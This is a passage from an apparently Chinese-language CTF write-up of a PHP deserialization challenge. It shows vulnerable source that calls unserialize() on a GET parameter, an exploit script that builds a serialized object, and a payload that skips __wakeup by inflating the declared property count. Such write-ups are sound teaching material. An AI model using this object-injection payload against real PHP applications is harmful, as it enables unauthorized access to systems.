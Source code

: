 		function __wakeup(){
			$this->password = 1; echo 'hello hacker,I have changed your password and time, rua!';
		}
	}
	if(isset($_GET['rua'])){
		$rua = $_GET['rua'];
		@unserialize($rua);
	}
	else{
		echo "<h1>Please don't stop rua 233333</h1><br>";
	}

常规的反序列化操作，计算符合条件的时间

![56.jpg](https://i.loli.net/2019/04/25/5cc1bf2dedb6e.jpg)

exp

	<?php
	class Time{
		public $time;
		public $password;
		public function __construct($tt, $pp) {
	    $this->time = $tt;
	    $this->password = $pp;
	    }
	}
	
	$password = array(0=>'yml');
	$time = '0x4c06f351';
	$yml = new Time($time,$password);
	
	echo serialize($yml);
	
	?>

payload

![57.jpg](https://i.loli.net/2019/04/25/5cc1bf9bd56ea.jpg)

绕过wakeup

	O:4:"Time":3:{s:4:"time";s:10:"0x4c06f351";s:8:"password";a:1:{i:0;s:3:"yml";}}

得到flag

![58.jpg](https://i.loli.net/2019/04/25/5cc1bfed2af41.jpg)

## web24 ##
